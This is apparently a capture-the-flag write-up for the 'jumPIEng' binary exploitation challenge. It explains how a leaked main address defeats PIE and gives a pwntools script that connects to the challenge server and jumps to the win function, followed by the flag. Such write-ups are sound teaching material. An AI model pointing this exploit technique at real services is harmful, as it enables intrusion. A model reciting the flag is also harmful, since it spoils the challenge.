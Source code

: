 ```yaml
---
description: Binary Exploitation
---
```


# jumPIEng

> Harry, a rookie in CTFs just begun learning binary exploitation and was fascinated with how PIE works. So, he now believe that no matter how much information you have about the addresses, you cannot leak the flag from his binary because it has PIE enabled. Good luck proving him wrong.

{% file src="../../.gitbook/assets/redirection" %}

Given a binary called "redirection", after analysing in Ghidra it looked like a PIE challenge with ret2win. We are given a main function address leak, and that is enough to get base address.

Following the PIE bypass tutorial from ir0nstone: https://ir0nstone.gitbook.io/notes/binexp/stack/pie/pie-exploit

It is enough to redirect to the win function known as `redirect_to_success`:

![image](https://hackmd.io/_uploads/ryeSLAA5Jl.png)

The solver script is:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'redirection')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '34.131.133.224'
port = int(args.PORT or 12346)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

log.info(io.recvuntil("address: "))
leak = int(io.recvline().strip(), 16)
log.info(f"leak: {hex(leak)}")

exe.address = leak - exe.sym['main']
log.info(io.clean())

payload = hex(exe.sym['redirect_to_success'])
log.info(f"payload: {payload}")
io.sendline(payload)

io.interactive()
```

![image](https://hackmd.io/_uploads/r1b4IRR5ye.png)

Flag : `ACECTF{57up1d_57up1d_h4rry}`

